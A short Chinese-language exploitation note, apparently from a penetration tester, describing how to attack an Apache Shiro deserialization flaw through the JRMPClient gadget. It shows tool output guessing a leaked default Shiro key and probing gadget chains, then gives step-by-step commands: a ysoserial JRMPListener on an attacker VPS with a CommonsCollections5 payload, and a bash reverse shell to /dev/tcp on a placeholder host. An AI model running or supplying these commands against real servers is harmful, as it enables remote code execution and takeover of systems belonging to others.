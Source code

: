 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，可以尝试JRMPClient，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x01 漏洞利用
  
  1.使用ysoserial.jar 工具搭建服务，VPS执行 java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping rskzeg.dnslog.cn"
  
  2.shiro反序列利用工具中选择JRMPClient,然后输入VPS上搭建服务的地址
  
  3.执行反弹命令bash -i >& /dev/tcp/xxxxxx/8888 0>&1
  
